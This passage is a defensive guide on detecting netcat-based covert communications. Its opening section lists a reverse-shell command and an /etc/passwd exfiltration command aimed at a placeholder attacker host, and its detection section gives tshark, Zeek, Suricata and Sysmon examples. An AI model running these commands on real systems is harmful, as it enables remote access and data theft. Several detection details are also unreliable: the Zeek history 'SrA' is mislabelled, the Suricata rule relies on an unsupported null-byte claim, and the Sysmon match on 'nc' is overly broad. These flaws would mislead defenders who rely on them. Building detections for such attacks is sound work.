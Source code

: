 # Detecting and defending against covert communications

### **1. Understanding Netcat’s Covert Use Cases**  
Netcat (`nc`) is a versatile networking tool often abused by adversaries for:  
- **Reverse shells**: `nc -e /bin/sh <attacker_IP> <port>`  
- **File exfiltration**: `nc -w 3 <attacker_IP> <port> < /etc/passwd`  
- **Port scanning**: `nc -zv <target_IP> 1-1000`  
- **C2 Relays**: Chaining netcat instances to pivot through networks.  

---

### **2. Detection Strategies**  
#### **A. Network-Based Detection**  
##### **a. Unusual Port Activity**  
- Netcat often uses uncommon ports (e.g., 4444, 31337) or masquerades as HTTP/HTTPS (ports 80/443) with non-standard protocols.  
- **Example**: Use `tshark` (Wireshark CLI) to flag traffic on suspicious ports:  
  ```bash
  tshark -r traffic.pcap -Y "tcp.port == 4444 && !(http || tls)"  
  ```  

##### **b. Payload Analysis**  
- Netcat traffic lacks typical protocol headers (e.g., HTTP/SMTP). Use **Bro/Zeek** to detect raw TCP/UDP sessions:  
  ```bro
  event connection_state_remove(c: connection) {
    if (c$id$resp_p == 4444 && c$history == "SrA") {  # SrA = SYN, SYN-ACK, ACK
      NOTICE([$note=Covert_Channel,
              $msg=fmt("Suspicious raw TCP session to %s", c$id$resp_h)]);
    }
  }
  ```  

##### **c. Suricata/Snort Signatures**  
Create custom rules to detect netcat patterns:  
```suricata  
alert tcp any any -> any any (msg:"Netcat Reverse Shell Detected"; content:"|00 00 00 00 00 00 00 00|"; depth:8; sid:1000001;)  
```  
*(Note: The byte sequence `00 00 00 00 00 00 00 00` is common in netcat raw TCP sessions.)*  

---

#### **B. Host-Based Detection**  
##### **a. Process Monitoring**  
- Netcat processes (`nc`, `ncat`, `netcat`) are short-lived. Use **Sysmon** (Windows) or **auditd** (Linux) to log process creation:  
  **Sysmon Configuration (Windows)**:  
  ```xml  
  <RuleGroup name="Netcat Detection">  
    <ProcessCreate onmatch="include">  
      <CommandLine condition="contains">nc</CommandLine>  
      <CommandLine condition="contains">ncat</CommandLine>  
    </ProcessCreate>  
  </RuleGroup>  
  ```  
